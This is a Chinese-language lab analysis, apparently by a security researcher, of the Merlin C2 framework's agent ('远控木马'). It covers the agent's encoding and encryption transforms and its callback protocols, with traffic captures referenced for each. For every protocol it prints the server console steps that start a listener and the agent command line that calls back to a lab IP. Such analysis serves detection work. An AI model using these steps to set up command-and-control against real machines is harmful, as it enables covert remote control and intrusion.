* Merlin Agent默认使用的编码/加密算法为：`jwe,gob-base`

相关代码截图如下：





进一步分析，发现Transformer接口定义了网络通信数据的构造、解构函数，详情如下：

### 构造通信数据

Merlin Agent远控木马在发送通信数据时，将根据编码/加密算法配置信息先后调用对应的Construct函数进行数据加密和编码。

相关代码截图如下：



### 解构通信数据

Merlin Agent远控木马在接收通信数据后，将根据编码/加密算法配置信息先后调用对应的Deconstruct函数进行数据解码和解密。

相关代码截图如下：



## Merlin Agent多种上线通信协议

根据merlin项目介绍，发现Merlin Agent远控木马支持多种通信协议上线，相关官网介绍如下：



通过多轮测试，梳理不同上线通信协议的区别如下：

|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| 协议 | 加密 | 基础协议 | 特性 | 端口 | 使用场景 |
| HTTP | 否 | TCP | 明文传输、无状态 | 80 | 无需安全、低速传输的场景 |
| HTTPS | 是 | TCP + TLS | 安全传输、身份验证、加密 | 443 | 需要安全传输的场景（如在线支付、登录） |
| H2C | 否 | TCP | 明文传输、使用 HTTP/2 的特性 | 80 | 特定优化需求，但不需要加密的场景 |
| HTTP/2 | 是 | TCP + TLS | 二进制协议、多路复用、头压缩 | 443 | 需要高效传输的安全场景 |
| HTTP/3 | 是 | UDP + TLS | 基于 QUIC、更快的连接建立、更好的多路复用 | 443 | 高延迟或丢包环境下的优化传输 |

### 一个误导人的小坑

在Merlin Server中实际操作时，发现命令行中还支持SMB、TCP、UDP通信协议，相关截图如下：



在实际开启监听的过程中，发现SMB、TCP、UDP通信协议是无法正常启动的；进一步基于源码进行剖析，发现SMB、TCP、UDP通信协议对应的开启监听代码是空。（**备注：SMB、TCP、UDP通信协议是用于构建跳板通信的**）

相关代码截图如下：



### HTTP通信协议上线

尝试基于HTTP通信协议上线Merlin Agent远控木马，相关操作流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTP
Merlin[listeners][HTTP]» set Interface 192.168.64.128

[+] 2025-02-13T12:39:37Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP]» start

[+] 2025-02-13T12:39:40Z Started 'My HTTP Listener' listener with an ID of e667b738-e441-4916-a36a-4fe575ccad5c and a HTTP server on 192.168.64.128:80
Merlin[listeners][e667b738-e441-4916-a36a-4fe575ccad5c]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| ID            | e667b738-e441-4916-a36a-4fe575ccad5c         |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTKey        | R1pjVFl2ckxFV2FqQUJPYWVjSlFnUURSZUJYbVRkbVE= |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Protocol      | HTTP                                         |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][e667b738-e441-4916-a36a-4fe575ccad5c]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe  -url http://192.168.64.128:80/ -proto http
```

相关数据包截图如下：



### HTTPS通信协议上线

尝试基于HTTPS通信协议上线Merlin Agent远控木马，相关操作流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.114.129

[+] 2025-02-13T12:42:10Z set 'Interface' to: 192.168.114.129
Merlin[listeners][HTTPS]» start

[-] 2025-02-13T12:42:13Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-13T12:42:13Z Started 'My HTTP Listener' listener with an ID of e8fdcba0-a5cc-4171-9670-1988c20fb70b and a HTTPS server on 192.168.114.129:443
Merlin[listeners][e8fdcba0-a5cc-4171-9670-1988c20fb70b]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| ID            | e8fdcba0-a5cc-4171-9670-1988c20fb70b         |
+---------------+----------------------------------------------+
| Protocol      | HTTPS                                        |
+---------------+----------------------------------------------+
| Interface     | 192.168.114.129                              |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| JWTKey        | dVp2SnNwQlROc3lCY2JNbkNwRFdTekNPS3VwcHJNbk8= |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][e8fdcba0-a5cc-4171-9670-1988c20fb70b]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe  -url https://192.168.114.129:443/ -proto https
```

相关数据包截图如下：


### H2C通信协议上线

尝试基于H2C通信协议上线Merlin Agent远控木马，相关操作流程如下：

* Merlin Server

```
Merlin» listeners
Merlin[listeners]» use H2C
Merlin[listeners][H2C]» set Interface 192.168.114.129

[+] 2025-02-13T12:44:51Z set 'Interface' to: 192.168.114.129
Merlin[listeners][H2C]» start

[+] 2025-02-13T12:44:53Z Started 'My HTTP Listener' listener with an ID of fa92db9c-314d-42d3-9f0c-8a17e0ab2a44 and a H2C server on 192.168.114.129:80
Merlin[listeners][fa92db9c-314d-42d3-9f0c-8a17e0ab2a44]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| ID            | fa92db9c-314d-42d3-9f0c-8a17e0ab2a44         |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Interface     | 192.168.114.129                              |
+---------------+----------------------------------------------+
| JWTKey        | aUxWelRpbmdQckRQTHJ2TVdZYkVWTlZTRm5GRmRNZFM= |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Protocol      | H2C                                          |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][fa92db9c-314d-42d3-9f0c-8a17e0ab2a44]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe  -url http://192.168.114.129:80/ -proto h2c
```

相关数据包截图如下：



### HTTP2通信协议上线

尝试基于HTTP2通信协议上线Merlin Agent远控木马，相关操作流程如下：

* Merlin Server

```
Merlin[listeners]» use HTTP2
Merlin[listeners][HTTP2]» set Interface 192.168.114.129

[+] 2025-02-13T12:47:32Z set 'Interface' to: 192.168.114.129
Merlin[listeners][HTTP2]» start

[-] 2025-02-13T12:47:34Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-13T12:47:35Z Started 'My HTTP Listener' listener with an ID of b73d1e96-4b83-4e82-9642-3094ea59bb45 and a HTTP2 server on 192.168.114.129:443
Merlin[listeners][b73d1e96-4b83-4e82-9642-3094ea59bb45]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Interface     | 192.168.114.129                              |
+---------------+----------------------------------------------+
| Protocol      | HTTP2                                        |
+---------------+----------------------------------------------+
| JWTKey        | RnRtakt1SW9rYkJTWlpzQnhKWHZ2Q1pPY1RlYUlhUWE= |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| ID            | b73d1e96-4b83-4e82-9642-3094ea59bb45         |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][b73d1e96-4b83-4e82-9642-3094ea59bb45]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe  -url https://192.168.114.129:443/ -proto h2
```

相关数据包截图如下：



### HTTP3通信协议上线

尝试基于HTTP3通信协议上线Merlin Agent远控木马，相关操作流程如下：

* Merlin Server

```
Merlin[listeners]» use HTTP3
Merlin[listeners][HTTP3]» set Interface 192.168.114.129

[+] 2025-02-13T12:49:47Z set 'Interface' to: 192.168.114.129
Merlin[listeners][HTTP3]» start

[-] 2025-02-13T12:49:51Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-13T12:49:53Z Started 'My HTTP Listener' listener with an ID of c40ee002-801a-4c5a-aaa4-90e0cf9f724b and a HTTP3 server on 192.168.114.129:443
Merlin[listeners][c40ee002-801a-4c5a-aaa4-90e0cf9f724b]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| Protocol      | HTTP3                                        |
+---------------+----------------------------------------------+
| ID            | c40ee002-801a-4c5a-aaa4-90e0cf9f724b         |
+---------------+----------------------------------------------+
| JWTKey        | Y1p5bWtOdU1FdnlJZldSbHFUbU5hS0VwUWZyQ1VsVWI= |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Interface     | 192.168.114.129                              |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][c40ee002-801a-4c5a-aaa4-90e0cf9f724b]»
```

* Merlin Agent

```
merlinAgent-Windows-x64.exe  -url https://192.168.114.129:443/ -proto http3
```

相关数据包截图如下：


